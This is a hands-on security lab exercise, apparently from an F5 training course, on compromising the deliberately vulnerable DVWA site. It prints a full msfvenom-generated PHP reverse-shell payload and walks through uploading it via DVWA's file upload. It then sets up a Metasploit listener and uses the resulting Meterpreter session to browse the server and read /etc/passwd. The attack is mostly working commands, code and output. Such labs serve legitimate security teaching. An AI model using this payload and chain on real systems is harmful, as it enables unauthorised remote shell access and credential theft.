 Exercise 2: Exploiting a Web Server
-----------------------------------

This exploit uses some of the basic functions of the DVWA web site to
demonstrate how to hack through the site itself. A hacker would use this
as a means of circumventing your perimeter to gain access to your
applications, servers and data.

We will start by creating a pre-canned piece of php code that we will
upload to the web server through the upload function on DVWA. For this
exercise you will need to locate the external IP for your Kali server.
This IP is generated dynamically for each student but we have written a
script and an iRule on the CTF server to return the IP address you’ll
need.

On the Kali server, run the following:

msfvenom -p php/meterpreter/reverse\_tcp lport=4444 -f raw lhost=\`curl
-k https://ctf.f5lab.biz/whatismyip\`

% Total % Received % Xferd Average Speed Time Time Time Current

Dload Upload Total Spent Left Speed

100 14 100 14 0 0 492 0 --:--:-- --:--:-- --:--:-- 518

No platform was selected, choosing Msf::Module::Platform::PHP from the
payload

No Arch selected, selecting Arch: php from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 950 bytes

/\*<?php /\*\*/ error\_reporting(0); $ip = '<YOUR-IP>'; $port = 4444; if
(($f = 'stream\_socket\_client') && is\_callable($f)) { $s =
$f("tcp://{$ip}:{$port}"); $s\_type = 'stream'; } elseif (($f =
'fsockopen') && is\_callable($f)) { $s = $f($ip, $port); $s\_type =
'stream'; } elseif (($f = 'socket\_create') && is\_callable($f)) { $s =
$f(AF\_INET, SOCK\_STREAM, SOL\_TCP); $res = @socket\_connect($s, $ip,
$port); if (!$res) { die(); } $s\_type = 'socket'; } else { die('no
socket funcs'); } if (!$s) { die('no socket'); } switch ($s\_type) {
case 'stream': $len = fread($s, 4); break; case 'socket': $len =
socket\_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen",
$len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch
($s\_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket\_read($s, $len-strlen($b)); break; } }
$GLOBALS['msgsock'] = $s; $GLOBALS['msgsock\_type'] = $s\_type;
eval($b); die();

Highlight the section of code that was generated – from the “/\*<?php”
to the end “die;”

Open a Command prompt on the Windows PC. In the command prompt type:

CD Desktop

Notepad hackdvwa.php

..  image:: /class2/_static/cmd1.png

In Notepad, paste the copied code and Save and Close the file.

..  image:: /class2/_static/notepad.png

Open a Web Browser and go to https://dvwa.vlab.f5demo.com

Log in with admin / password

Choose the Upload menu on the lower left

..  image:: /class2/_static/dvwa.png

Click ‘Choose File’ and select the hackdvwa.php file you just created on
the Desktop and click ‘Upload’

..  image:: /class2/_static/explorer.png

..  image:: /class2/_static/upload.png

The file is then posted to the server and the location is displayed for
you as a means of confirmation. You can copy this and paste it at the
end of the URL in the browser.

In the browser, visit that file’s location:
http://dvwa.vlab.f5demo.com/hackable/uploads/hackdvwa.php

This will actually fail and you should see a “no socket” message, but
we’ll set that up next.

Back to the Kali ssh session we will set up the server to connect to
from the web server.

If you’re not within msfconsole anymore, start it:

msfconsole

Now we want to choose an exploit to run.

use exploit/multi/handler

To see what is selected for this exploit by default, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Exploit target:

Id Name

-- ----

0 Wildcard Target

this selects the exploit we’ll run in Metasploit

set payload php/meterpreter/reverse\_tcp

To see the options for this payload, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

This chooses the actual payload we’re going to send through the exploit
and we’ll set some parameters. To see the options:

show options

msf exploit(handler) > set payload php/meterpreter/reverse\_tcp

payload => php/meterpreter/reverse\_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

Set the options as follows:

set lhost 10.1.10.240

set lport 4444

lhost and lport
^^^^^^^^^^^^^^^

These options are the ‘local’ listening IP and port for the exploit.
Note that the IP here is the internal NAT’d IP address. In the above php
code you entered the External NAT’d address.

Return to your web browser on the Windows PC and refresh the page.

Now we can start the server:

exploit

exploit
^^^^^^^

Exploit is the fun command… here we are running the exploit we want to
see. You can also use ‘run’ but exploit is so much more Hacker.

After a few seconds, you should see:

[\*] Started reverse TCP handler on 10.1.10.240:4444

[\*] Starting the payload handler...

[\*] Sending stage (33986 bytes) to <YOURIP>

[\*] Meterpreter session 3 opened (10.1.10.240:4444 -> <IP>:PORT) at
<Date>

And then a moment or two later:

meterpreter >

Meterpreter
-----------

Meterpreter is the “Swiss Army Knife” of the Metasploit Framework. You
can open a meterpreter console up through an exploit, like we just did.
In this case, we set up Metasploit to listen for incoming traffic on
port 4444 on our NAT’d internet address. We had to do this because the
DMZ address isn’t accessible by the Web Server but it is allowed to
connect to the internet. We then run the uploaded php code we generated
which opens the connection and now we’re able to run commands on the web
server as though we had an ssh-like connection.

Let’s examine the web server so see what we can find.

In the Meterpreter shell type:

dir

We can the following:

meterpreter > dir

Listing: /var/www/dvwa/hackable/uploads

=======================================

Mode Size Type Last modified Name

---- ---- ---- ------------- ----

100644/rw-r--r-- 667 fil 2013-07-08 12:55:06 -0400 dvwa\_email.png

100644/rw-r--r-- 950 fil 2017-06-19 09:11:52 -0400 hackdvwa.php

100644/rw-r--r-- 951 fil 2017-06-14 13:50:15 -0400 hackme.php.txt

We can see what accounts are on this server by typing:

cat /etc/passwd

To see a list of the commands that are available to you, you can type
*help* at any point

Feel free to investigate the web server, when you’re finished type
*exit* and the Meterpreter shell will close.

Note that when you close the session, the web page finally ends
spinning.